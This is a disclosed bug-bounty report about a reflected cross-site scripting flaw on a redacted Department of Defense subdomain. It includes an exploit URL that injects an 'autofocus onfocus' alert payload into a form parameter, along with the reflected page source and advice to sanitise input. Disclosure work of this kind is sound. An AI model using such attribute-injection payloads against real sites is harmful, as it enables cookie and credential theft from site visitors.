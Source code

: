 # Reflected XSS at https://████████/███/...

## Report Details
- **Report ID**: 976137
- **URL**: https://hackerone.com/reports/976137
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-07T11:54:08.767Z
- **Disclosed**: 2021-03-24T20:56:41.611Z

## Reporter
- **Username**: pudsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary:
According to [DOD Websites](https://www.defense.gov/Resources/Military-Departments/DOD-Websites/), the [███████](http://██████████) is a potential in-scope target, and where I discovered an unauthenticated `GET` based reflected cross-site scripting vulnerability on the `██████████` subdomain.

## Steps to Reproduce:
Visit the following URL;
```
https://█████/█████/████████=%22%20autofocus%20onfocus=%22alert(document.domain)%22&Z_MODE=&Z_CALLER_URL=&Z_FORMROW=&Z_LONG_LIST=&Z_ISSUE_WAIT=
```
The following generated in the page source;
```
███████ VALUE="" autofocus onfocus="alert(document.domain)"%">
```
You will see that a pop-up appears, demonstrating that the JavaScript was executed successfully.

## Recommendations:
Sanitise any user input and check any other potential vulnerable parameters.

## Impact

A cross-site scripting vulnerability allows an attacker to embed malicious code into a URL of a vulnerable page, which is then executed when a victim views the page and can be used to gain account credentials by stealing cookies or modify the destination page to perform malicious actions.

## Attachments
No attachments

